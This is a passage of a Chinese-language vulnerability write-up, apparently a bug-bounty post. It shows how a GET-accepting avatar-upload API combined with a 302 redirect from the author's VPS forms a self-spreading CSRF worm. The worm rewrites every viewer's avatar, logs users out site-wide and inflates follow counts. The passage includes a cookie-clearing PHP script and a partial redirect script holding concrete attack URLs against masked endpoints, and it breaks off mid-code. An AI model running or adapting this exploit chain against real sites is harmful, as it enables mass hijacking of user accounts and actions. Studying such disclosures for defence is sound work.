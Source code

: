 ```
<?php
// 清空当前所有Cookie
if (isset($_COOKIE)) {
    foreach ($_COOKIEas$name => $value) {
        // 设置Cookie的过期时间为过去，这样浏览器会自动删除它
        setcookie($name, '', time() - 86400, '/');
    }
}
?>

```

  
这样我们通过把cookie值设置到了过去变相的去删除了浏览器中的所有cookie，回到那个论坛由于没有cookie也就自动退出了。但是这个影响还是很有限，只能到中危，如何进一步提高危害呢？  
# 柳暗花明  
  
这个时候发现了一个点位虽然这个修改头像是默认POST传参的，但是你还是可以通过GET传参提交  

```
api.*****.com/v1.1/avaimageupload.api?product=*****&imageUrl=***vps/**.png&blogId=***

```

  
这就有意思了兄弟们，试想一下，如果我通过vps+302跳转到  
http://api.*****.com/v1.1/avaimageupload.api?product=*****&amp;imageUrl=**\*vps/\**.png&amp;blogId=  
***  
  
这个路由，那会发生什么？  
  
没错，当别人看到我头像(指向GET修改头像的API)，就会自动修改自己的头像，成指向GET修改头像的API，然后其他人再去看到他们的头像。。。  
  
一传十，十传百这样就可以影响到全站的用户。如果这个时候，我把VPS上的poc.php内容修改成退出访问/logout，不就会让全站的用户的退出了吗？  
  
等下，利用链不止于此，我发现那个关注的接口也是可以通过GET传参，这就说明可以恶意刷关注量了。  
# 实践开始  
  
首先在对应的服务器上创建这样一个php脚本用于转跳  

```
<?php

session_start(); // 启用会话

$ip = $_SERVER['REMOTE_ADDR']; // 获取访问者的 IP 地址

$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : ''; // 获取 Referer

// 定义跳转 URL

$firstRedirect = &#34;https://api.*****.com/v1.1/avaimageupload.api?product=*****-android-8.1.9&imageUrl=www.7ntsec.cn/avaimg.*****.net/location_check.php&blogId=2267493166&#34;;

$secondRedirect = &#34;https://api.*****.com/v1.1/follow.api?followtype=follow&product=*****-android-8.1.9&targetblogid=529578359&blogdomain=*****gamer.*****.com&#34;;

$refererRedirect = &#34;https://avaimg.*****.net/img/&#34;;

// 日志文件路径

$logFile = &#34;./access_log.txt&#34;;

// 记录日志的函数

functionlogAccess($ip, $referer, $visitCount, $redirectUrl) {

```